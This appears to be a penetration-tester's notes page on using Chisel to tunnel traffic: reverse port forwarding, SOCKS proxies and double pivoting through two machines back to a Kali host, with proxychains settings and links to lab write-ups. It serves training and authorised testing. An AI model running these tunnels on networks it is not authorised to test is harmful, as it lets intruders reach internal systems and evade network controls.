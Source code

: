 ```yaml
---
description: >-
  Chisel
title:  Chisel             # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [09 Port Redirection and Tunneling, Chisel]                     # Change Templates to Writeup
tags: [port redirection and tunneling, chisel]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


Download [Chisel](https://github.com/jpillora/chisel/releases)

### Remote port forwarding
Chisel as client:
```powershell
# Single Port
.\\chisel.exe client 10.10.16.4:1337 R:1433:localhost:1433
# All the ports
./chisel client 10.10.14.3:1234 R:127.0.0.1:socks
```
Examples:
[[Anubis#^e12b6c]]

Chisel as server:
```bash
./chisel server --port 1337 --reverse
```
Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:simple-pivoting)

### Forward SOCKS Proxy
Chisel as client:
```bash
./chisel.sh server -p 2345 --socks5
```
Chisel as server:
```bash
./chisel_1.7.7_linux_amd64 client 10.10.11.107:2345 <PROXY_PORT>:socks
```
Additionally /etc/proxychains.conf file needs to be setted as follows:
```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 <PROXY_PORT>
```
Finally if this is an HTTP service we need to configure the foxyproxy with the port choosen:
![Description](/assets/img/Pasted-image-20220711213232.png)
Examples:
[[Antique#^45b307]]

### Double Pivoting

If there are two machines and we want to reach the second one fully with with double chisel, we need to upload a chisel and proceed to do the following commands:

1) On Kali Machine:
```bash
# For all the pivotings
./chisel server -p 1234 --reverse
```
> This server needs to be opened only once, and all the subsequent connections will be redirected towards this port.
{: .prompt-tip }

2) On first machine:
```powershell
# It needs to point to the Kali server:
./chisel client 10.10.14.3:1234 R:127.0.0.1:socks
```
> Since the port for the proxy is not specified, the socks proxy will be opened on port 1080 by default.
{: .prompt-tip }

3) On second machine:
```powershell
# It needs to point to the Kali server on different socks port:
./chisel client 10.10.14.3:1234 R:1081:socks
```
> For the second machine the second socks proxy port needs to be specified, it is worth mentioning that the traffic will be sent over the first tunnel.
{: .prompt-tip }

![Chisel-Double-Pivoting](/assets/img/Pasted-image-20230523001536.png)

> It is also worth mentioning that further modification on the `/etc/proxychains.conf` file is needed, first of all `dynamic_chain` needs to be applied and `strict_chain` can't be in place so it needs to be commented. Moreover, the farthest proxychain needs to be put on top of the chain.
{: .prompt-warning }
```bash
## Proxychains.conf needs to be changed from strict_chain to dynamic_chain:
<SNIP>
# The option below identifies how the ProxyList is treated.
# only one option should be uncommented at time,
# otherwise the last appearing option will be accepted
#
dynamic_chain
#
# Dynamic - Each connection will be done via chained proxies
# all proxies chained in the order as they appear in the list
# at least one proxy must be online to play in chain
# (dead proxies are skipped)
# otherwise EINTR is returned to the app
#
#strict_chain
<SNIP>
#And also the first proxy needs to be in top of the ProxyList:
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1081
socks5  127.0.0.1 1080
```

Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:double-pivoting)
